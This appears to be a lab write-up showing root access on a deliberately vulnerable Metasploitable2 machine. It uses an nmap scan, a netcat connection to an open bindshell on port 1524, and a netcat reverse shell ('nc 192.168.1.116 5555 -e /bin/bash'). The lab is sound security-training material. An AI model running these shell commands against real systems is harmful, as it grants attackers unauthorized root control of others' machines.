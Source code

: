 # Bindshell vs Reverse Shell Exploit

## Tools
* [Kali Linux](https://www.kali.org/get-kali/#kali-platforms) or similar Linux distro
* Metasploit
* Another machine/Virtual machine with [Metasploitable2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/) or similarly vulnerable OS 

# Steps


1. **Nmap Service Scan**:
    - Initiate an `nmap` scan using the command:
      ```bash
      nmap -sV target_IP -p 1524
      ```
    - This command performs a service version detection (`-sV`) scan on a specific IP and port (`1524`).
    - Results indicate that **port 1524** is open, with a service running as `bindshell` on the **Metasploitable** system.
  
      ![Screenshot_2024-10-06_17_47_011](https://github.com/user-attachments/assets/b4f0f88d-a1a1-45d5-b525-d5653f8e0222)

2. **Netcat Connection**:
    - After identifying the open port, connect to the target machine using `netcat` with the command:
      ```bash
      nc target_IP 1524
      ```
    - Upon connection, we access a **root shell** on the target Metasploitable machine, as indicated by the `whoami` command output:
      ```
      root
      ```
      ![Screenshot_2024-10-06_17_47_01](https://github.com/user-attachments/assets/7c4bcc37-640a-477b-98eb-d7bede9113c4)

3. **Directory Listing**:
    - run the command:
      ```bash
      ls -all
      ```
      to show this is the ROOT directory on the target.

---


1. **Netcat Listener**:
    - To set up a **Netcat listener** on the Kali machine use the command:
      ```bash
      nc -nlvp 5555
      ```
    - This command opens a listening socket (`-l`) on port `5555` while allowing verbose output (`-v`) and disabling DNS lookups (`-n`).
    - The listener is now waiting for incoming connections on this port for reverse shell purposes.
![Screenshot_2024-10-06_17_49_53](https://github.com/user-attachments/assets/d19f75de-016c-46be-a595-212deac34715)

---

2. **On the Target Machine**
On the Metasploitable machine, the command:
```bash
nc 192.168.1.116 5555 -e /bin/bash
```
  is executed to gain a fully interactive reverse shell on the main machine

The attacker now has a fully interactive reverse shell on the Metasploitable machine.

---

3. **Hostname and User Check**:
    - Execute the following commands to verify details about the target system:
      ```bash
      hostname
      whoami
      ```
    - The target's hostname is `metasploitable` and the user running these commands is `root`, confirming full access to the system.
    ![Screenshot_2024-10-06_17_52_31](https://github.com/user-attachments/assets/aa73f348-3e82-46b7-95c2-33623a31a0fe)



---

## Conclusion

In this lab exercise, we exploited an open `bindshell` service running on the vulnerable Metasploitable machine via port 1524. After successfully gaining root access, we could do anything like view the contents of the root directory. We then set up a **Netcat listener** on the kali machine and a **Netcat reverse shell** on the target machine on port 5555. Finally, we verified the network configuration and identity of the target machine to ensure full control over the compromised system.
